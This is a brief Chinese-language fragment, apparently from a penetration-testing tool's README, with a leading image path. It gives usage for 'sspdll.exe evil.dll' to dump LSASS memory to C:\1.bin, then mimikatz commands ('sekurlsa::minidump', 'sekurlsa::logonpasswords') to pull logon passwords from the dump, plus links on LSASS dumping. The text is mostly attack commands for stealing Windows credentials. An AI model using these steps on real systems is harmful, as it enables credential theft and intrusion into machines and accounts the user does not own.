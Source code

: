 用法: sspdll.exe evil.dll
默认存储在C:\1.bin

下载到本地之后使用mimikatz:

```
sekurlsa::minidump 1.bin
sekurlsa::logonpasswords
```

* <https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/>
* <https://lengjibo.github.io/lassdump/>
* <https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e>

